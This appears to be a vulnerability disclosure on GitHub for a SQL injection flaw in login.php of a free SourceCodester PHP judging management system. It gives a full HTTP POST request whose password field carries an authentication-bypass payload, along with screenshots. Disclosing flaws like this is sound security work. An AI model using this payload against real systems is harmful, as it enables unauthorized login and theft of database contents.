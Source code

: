 **BUG_Author:**

Rone

**Vendor:**

[SourceCodester](https://vuldb.com/?vendor.sourcecodester)

**Software:**

[Judging Management System using PHP and MySQL Free Source Code | SourceCodester](https://www.sourcecodester.com/php/15910/judging-management-system-using-php-and-mysql-free-source-code.html)

**Vulnerability File:**

login.php

**Description:**

Attackers can use SQL injection to bypass the authentication and authorization mechanisms of web applications and retrieve the content of the entire database. SQLi can also be used to add, modify, and delete records in a database, thereby affecting data integrity. In appropriate cases, attackers can also use SQLi to execute operating system commands, which can then be used to launch further attacks.

```
POST /php-jms/login.php HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36 Edg/118.0.2088.46
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

password=-1' OR 3*2*1=6 AND 1=1 --+ &username=qeNtfPNC
```

![image-20231015182149405](https://github.com/GodRone/Judging-Management-System_SQL-injection/blob/main/Judging%20Management%20System_SQL%20injection.assets/image-20231015182149405.png)

![image-20231015182202919](https://github.com/GodRone/Judging-Management-System_SQL-injection/blob/main/Judging%20Management%20System_SQL%20injection.assets/image-20231015182202919.png)

![image-20231015221910813](https://github.com/GodRone/Judging-Management-System_SQL-injection/blob/main/Judging%20Management%20System_SQL%20injection.assets/image-20231015221910813.png)











